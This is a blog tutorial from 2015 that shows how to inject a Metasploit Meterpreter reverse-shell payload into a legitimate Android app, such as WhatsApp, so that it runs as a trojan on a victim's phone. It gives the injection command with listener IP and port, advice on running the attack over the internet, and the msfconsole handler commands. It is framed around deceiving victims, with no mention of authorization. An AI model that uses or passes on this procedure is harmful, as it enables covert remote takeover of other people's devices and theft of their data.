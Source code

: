 ```yaml
---
date: 'Sat Dec 12 2015 02:30:19 GMT+0530 (India Standard Time)'
title: Embed a Metasploit Payload in an Original .apk File | Part 1 — The Easy Way
tags:
  - Android
  - Hacking
  - Metasploit
  - Kali Linux
---
```


Hi Fellas! I’m sure most of you, or at least those who have set a foot in the kingdom of hacking, have heard of Metasploit. Don’t be disappointed if you haven’t, because you’re in the right track. 

From Wikipedia,

> The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine. Other important sub-projects include the Opcode Database, shellcode archive and related research.


In a more informal language, it’s a tool which we can use to perform various kinds of hacks against a machine. The flagship payload which comes with the Metasploit Framework is the _Meterpreter_, which also has an Android version that comes as an .apk file. In case you are wondering what a payload is, it’s a program we can install on a victim’s system to compromise it. Normally we have to install the Meterpreter payload in the victims phone by any means—usually involving Social Engineering—and when the victim runs the application, we would get a direct connection to that phone remotely and we can use it to wreak havoc on it.

But since the payload app doesn’t look very legit, takes up only a few kBs, and doesn’t show anything when clicked on, the victim will probably uninstall it right away, or worse, wouldn’t install it at all. So we have to solve that problem.

Here’s where this tutorial comes in. I’m gonna show you how to take any .apk file, be it WhatsApp or Amazon or SnapChat, and embed the Meterpreter payload in that apk. To the victim it will look and behave exactly as the original app, so he will use it regularly without any doubt, letting you do anything you want to his phone.


### Pre-requisites

Just to be clear,  In this tutorial the operating system used is Kali Linux, which is a de facto standard OS for Penetration Testing—read, hacking. You should also install the latest version of _ApkTool_ and some libraries for the scripts to work properly.

To install the required libraries, enter this command at the console —
```console
$ sudo apt-get install lib32stdc++6 lib32ncurses5 lib32z1
```

And to get the latest version of _ApkTool_, head over to [this site](http://ibotpeaches.github.io/Apktool/install/) and follow the installation instructions.


### Step 1

First of all grab the original apk from any of the numerous websites available. Just do a google search “app_name apk download” and Google will come up with a lot of results. Save that apk in any folder, in this tutorial I will use the Root folder and a `WhatApp.apk` as example.

### Step 2

Download the Ruby script from [this link](https://github.com/SkullTech/apk-payload-injector) and save it in the same folder as that of the original apk.

### Step 3

Open a terminal, and type the following command:
```console
$ ruby apk-embed-payload.rb WhatsApp.apk -p android/meterpreter/reverse_tcp LHOST=192.168.0.104 LPORT=4895
```

In this example I’ve used 192.168.0.104 as the Local IP address, i.e. your IP address and 4895 as the port on your Computer through which the Meterpreter payload will connect back to you. Make sure to change it to the appropriate values, especially the IP, the `LPORT` can be set to any reasonable port no.

_NOTE_. If you are going to conduct this attack over the internet, be sure to put your public IP, not your local IP, in the `LHOST` option. You also may need to forward the port you’re using for this attack to work properly.

Once you run the command, if you are lucky, the script will do everything by itself and complete the whole process. But more than often it cannot determine to which Activity of the app it should bind the payload to, so it asks you to select it. In that case, leave the terminal open with the script at the prompt, and browse to `/root/original`.

Then open the `AndroidManifest.xml` file using any text editor you like and look for an `<activity>` tag which contains both the texts `.MAIN` and `.LAUNCHER`. When you find that tag, look for the `android:name` attribute of that tag and from there, note the name of that Activity.

At the prompt of the Ruby script, enter the number corresponding to the Activity name you had noted previously and press Enter.

This is the hardest step of all, so I’m posting some screenshots to make your life easier.

![Screenshot from 2015-12-12 01-44-01](/images/posts/metasploit-apk-easily-screenshot-from-2015-12-12-01-44-01.png)
![Screenshot from 2015-12-12 01-43-27](/images/posts/metasploit-apk-easily-screenshot-from-2015-12-12-01-43-27.png)


### PROFIT?!

If you did everything correctly, you should now get an .apk file in your root directory with the name `backdoored_WhatsApp.apk`. It will install and run just like the original app.

As for the listener, you should use `multi/handler` and set the corresponding options accordingly. Just run the following commands —

```console
msfconsole
use multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.0.104
set LPORT 4895
exploit
```

Now wait for the victim to run the app, when he does it, you will get a Meterpreter prompt in the terminal!

![Screenshot from 2015-12-18 14:32:55](/images/posts/metasploit-apk-easily-screenshot-from-2015-12-18-143255.png)


### Note

You must have noticed I haven’t explained anything, rather asked you to blindly follow. As none of us wants to be a script-kiddie, we will learn how to do this manually in the next article. To be honest, I didn’t know how to successfully implement this until I found this script. After I saw that this script does what it promises, I learned the process by reverse-engineering it. Let us set that story apart for another article.

If you face any problem, don’t forget to mention it in the comments. I’ll try to help you in any way I can.

### Credits

I found the script from the comments section of a thread in _NullByte_, so thanks to the guy who shared it, I’m sorry I don’t remember which thread it was or who the guy was. And credit of making this script goes to _timwr_ and _Jack64_.

